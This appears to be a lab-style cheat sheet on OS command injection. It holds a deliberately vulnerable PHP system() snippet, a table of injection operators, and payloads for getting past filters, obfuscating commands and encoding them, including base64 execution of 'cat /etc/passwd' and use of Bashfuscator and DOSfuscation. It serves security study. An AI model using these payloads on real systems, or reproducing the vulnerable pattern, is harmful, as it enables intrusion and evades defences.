

# PHP Source Code - Vulnerable to command Injection

```php
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
?>
```

# **Detection**

## Example


 As the result shows a single packet transmitted in the ping command, the command used may be as follows:

```php
ping -c 1 OUR_INPUT
```

## **Command Injection Methods**

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | \|                      | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | \|\|                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ``                      | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

We would write our expected input (e.g., an IP), then use any of the above operators, and then write our new command.

# **Injecting Commands**

```php
ping -c 1 127.0.0.1; whoami
```

## **Bypassing Front-End Validation**

Sometimes Front-End will have basic input validation. it is possible to bypass these security measures injecting command directly in the request:



## **Other Injection Operators**

### **AND Operator**

```php
ping -c 1 127.0.0.1 && whoami
```

if the first command (ping) is not executed due the lack of a parameter. the injected command won’t work.
### **OR Operator**

```php
ping -c 1 || whoami
```

The `OR` operator only executes the second command if the first command fails to execute. In the example, the IP address was not specified in the command ping, so it will fail, and the second command will be executed

# **Bypassing Filters**

Always test the operator without any payload to check the application security’s behavior 

## Bypass Space Filters

```php
127.0.0.1%0a+whoami
```

### **Using Tabs**

```php
127.0.0.1%0a%09whoami
```

### **Using $IFS**

```php
127.0.0.1%0a${IFS}
```

### **Using Brace Expansion**

```php
127.0.0.1%0a{ls,-la}
```

[PayloadsAllTheThings/Command Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)

## **Bypassing Other Blacklisted Characters**

### **Linux**
##### **PATH**

```php
${PATH:0:1}

/
```

We can do the same with the `$HOME` or `$PWD` environment variables as well. 
##### **LS_COLORS**

```
echo ${LS_COLORS:10:1}  

;
```

**print all environmental variables**

```php
printenv
```

**Example:**

```php
127.0.0.1${LS_COLORS:10:1}${IFS}
```

### **Windows**

**%HOMEPATH%**

```
C:\htb> echo %HOMEPATH:~6,-11%

\
```

**Windows PowerShell**

```powershell
PS C:\htb> $env:HOMEPATH[0]

\

PS C:\htb> $env:PROGRAMFILES[10]

PS C:\htb>
```

## Command Shifting

```
echo $(tr '!-}' '"-~'<<<[)

\

```

## Examples

```php
127.0.0.1%0a{ls,${PATH:0:1}home}

#MEANING
127.0.0.1
ls /home
```

# **Bypassing Blacklisted Commands**

## Single and Double quotes obfuscation technique -  Windows & Linux

```bash
w'h'o'am'i

w"h"o"am"i
```

Note:  We cannot mix types of quotes and the number of quotes must be even. 

## characters-in-the middle obfuscation technique -  Linux only

```bash
who$@ami
w\ho\am\i
```

## characters-in-the middle obfuscation technique -  Windows only

```bash
C:\htb> who^ami
```

## Example

```php
127.0.0.1%0a{c"at",${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}

#MEANING

127.0.0.1
cat /home/inj3c70r/flag.txt
```

# **Advanced Command Obfuscation**

## **Case Manipulation**

### CMD & PowerShell

```php
PS C:\htb> WhOaMi
```

### Linux

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

## **Reversed Commands**

### Linux

```bash
echo 'whoami' | rev

$(rev<<<'imaohw')
```

### Windows - PowerShell

```bash
PS C:\htb> "whoami"[-1..-20] -join ''

PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

## **Encoded Commands**

### Linux

```bash
echo -n 'cat /etc/passwd | grep 33' | base64

> Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

> www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

### Windows - PowerShell

```bash
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

The same with linux…

```
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

# **Evasion Tools**

## **Linux (Bashfuscator)**

```bash
bashfuscator -c 'cat /etc/passwd'
```

**Note:** Running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters

## Using filters

```bash
bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

## **Windows (DOSfuscation)**

```powershell
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation

Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```
